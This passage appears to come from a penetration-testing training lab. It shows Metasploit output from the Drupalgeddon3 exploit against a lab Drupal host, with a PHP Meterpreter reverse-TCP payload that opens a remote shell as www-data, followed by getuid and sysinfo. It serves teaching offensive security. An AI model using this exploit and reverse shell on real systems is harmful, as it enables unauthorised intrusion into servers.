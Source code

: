 ``` shell-session
   RHOSTS          10.129.42.195                                                                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT           80                                                                                yes       The target port (TCP)
   SSL             false                                                                             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI       /                                                                                 yes       The target URI of the Drupal installation
   VHOST           drupal-acc.inlanefreight.local                                                    no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   User register form with exec
```

``` shell-session
msf6 exploit(multi/http/drupal_drupageddon3) > exploit

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] Token Form -> GH5mC4x2UeKKb2Dp6Mhk4A9082u9BU_sWtEudedxLRM
[*] Token Form_build_id -> form-vjqTCj2TvVdfEiPtfbOSEF8jnyB6eEpAPOSHUR2Ebo8
[*] Sending stage (39264 bytes) to 10.129.42.195
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.129.42.195:44612) at 2021-08-24 12:38:07 -0400

meterpreter > getuid

Server username: www-data (33)


meterpreter > sysinfo

Computer    : app01
OS          : Linux app01 5.4.0-81-generic #91-Ubuntu SMP Thu Jul 15 19:09:17 UTC 2021 x86_64
Meterpreter : php/linux
```

## Onwards

# 

# 

#### Questions

####